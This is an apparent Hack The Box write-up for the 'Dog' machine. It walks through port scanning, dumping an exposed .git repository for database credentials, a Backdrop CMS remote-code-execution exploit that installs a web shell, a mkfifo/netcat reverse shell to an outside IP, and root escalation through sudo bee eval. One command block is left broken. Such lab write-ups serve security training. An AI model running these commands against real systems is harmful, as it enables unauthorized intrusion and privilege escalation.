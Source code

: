```yaml
---
name: Dog
difficulty: easy
os: linux
platform: htb
date: 2025/07/01

img: https://labs.hackthebox.com/storage/avatars/426830ea2ae4f05f7892ad89195f8276.png
---
```


## Enumeration

We start by scanning the target machine for open ports using Nmap. We will use the `-p-` option to scan all ports and the `--open` option to filter out closed ports:
```bash
nmap -p- --open -sS --min-rate 5000 -n -Pn -vvv 10.10.11.58 -o allPorts
```
```
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63
```

Now we will scan the open ports with service version detection and script scanning using `-sC` and `-sV` options

```bash
nmap -p 22,80 -sCV 10.10.11.58 -o targeted
```
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.12 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 972ad22c898ad3ed4dac00d21e8749a7 (RSA)
|   256 277c3ceb0f26e962590f0fb138c9ae2b (ECDSA)
|_  256 9388474c69af7216094cba771e3b3beb (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
| http-git: 
|   10.10.11.58:80/.git/
|     Git repository found!
|     Repository description: Unnamed repository; edit this file 'description' to name the...
|_    Last commit message: todo: customize url aliases.  reference:https://docs.backdro...
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-robots.txt: 22 disallowed entries (15 shown)
| /core/ /profiles/ /README.md /web.config /admin 
| /comment/reply /filter/tips /node/add /search /user/register 
|_/user/password /user/login /user/logout /?q=admin /?q=comment/reply
|_http-generator: Backdrop CMS 1 (https://backdropcms.org)
|_http-title: Home | Dog
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
## User Exploitation

As we can see, there is a web service running on port 80. This is exposing .git directory, which is a common misconfiguration in web applications. We can use this to our advantage.

We use `git-dumper` to download the contents of the `.git` directory:

```bash
python git_dumper.py http://10.10.11.58/.git/ ./website
```

This way we can download the entire repository, including the source code and configuration files.

We find a file named `settings.php` that contains sensitive information such as database credentials and other configuration details.
```php
$database = 'mysql://root:BackDropJ2024DS2024@127.0.0.1/backdrop';
$config_directories['active'] = './files/config_83dddd18e1ec67fd8ff5bba2453c7fb3/active';
$config_directories['staging'] = './files/config_83dddd18e1ec67fd8ff5bba2453c7fb3/staging';
$settings['hash_salt'] = 'aWFvPQNGZSz1DQ701dD4lC5v1hQW34NefHvyZUzlThQ';
```

Connecting to the database using the credentials we found, we can dump the users table to find valid user accounts.

```bash
mysql -u root -pBackDropJ2024DS2024 -h

Searching in depth, we find a possible user mail:
```bash
cat files/config_83dddd18e1ec67fd8ff5bba2453c7fb3/active/update.settings.json
```
The user is `tiffany@dog.htb`

Web page login was successfull using `tiffany@dog.htb:BackDropJ2024DS2024`

We can look up for exploits for the current version of Backdrop CMS. We find `https://www.exploit-db.com/exploits/52021` which is a Remote Code Execution (RCE) vulnerability in Backdrop CMS 1.27.1. Exactly the version we are running.

We copy and run the python script
```bash
python pya.py http://10.10.11.58
```
```
Backdrop CMS 1.27.1 - Remote Command Execution Exploit
Evil module generating...
Evil module generated! shell.zip
Go to http://10.10.11.58/admin/modules/install and upload the shell.zip for Manual Installation.
Your shell address: http://10.10.11.58/modules/shell/shell.php
```

We need to transform .zip to .tar.gz to upload it in the web application. We can do this with the following command:
```bash
unzip shell.zip && tar -czvf shell.tar.gz shell
```

We upload the `shell.tar.gz` file to the web application using the following steps:
Functionality > Install Module > Manual Installation

Then we can execute commands using the web shell at `http://10.10.11.58//modules/shell/shell.php?cmd=whoami`
```bash
www-data
```

We can get a reverse shell using the following command:
```bash
rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc 10.10.16.69 4444 > /tmp/f
```

Once we have a reverse shell, we can get a persistent shell by using the following commands on the reverse shell

```bash
script /dev/null -c /bin/bash
CONTROL-Z
stty raw -echo; fg
reset xterm
export TERM=xterm
```

We move to user su `johncusack` using the known password `BackDropJ2024DS2024`
```bash
ssh johncusack
```

We can find the user flag in the home directory:
```bash
cat /home/johncusack/user.txt
```
```
user flag value
```

## Root Exploitation

We can check if user `johncusack` has sudo privileges:
```bash
sudo -l
```
```
Matching Defaults entries for johncusack on dog:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User johncusack may run the following commands on dog:
    (ALL : ALL) /usr/local/bin/bee
```
We can see that user `johncusack` can run the command `/usr/local/bin/bee` as root.

We can check the usage of the `/usr/local/bin/bee` utility:
```bash
/usr/local/bin/bee --help
```

We find some interesting options

- eval: allows us to execute arbitrary php code
- --root: specifies the root directory to use

We can execute arbitrary code using these parameters. We can use the following command to get a reverse shell as root:
```bash
sudo /usr/local/bin/bee --root=/var/www/html eval 'system("id");'
```
```
uid=0(root) gid=0(root) groups=0(root)
```

We can read the root flag:
```bash
sudo /usr/local/bin/bee --root=/var/www/html eval 'system("cat /root/root.txt");'
```
```
root flag value
```

## Conclusion
This walkthrough demonstrates how to exploit a vulnerable Backdrop CMS installation to gain user and root access on the Dog machine. By leveraging misconfigurations and known vulnerabilities, we were able to escalate privileges and retrieve the flags.
This highlights the importance of secure coding practices and proper configuration management in web applications.

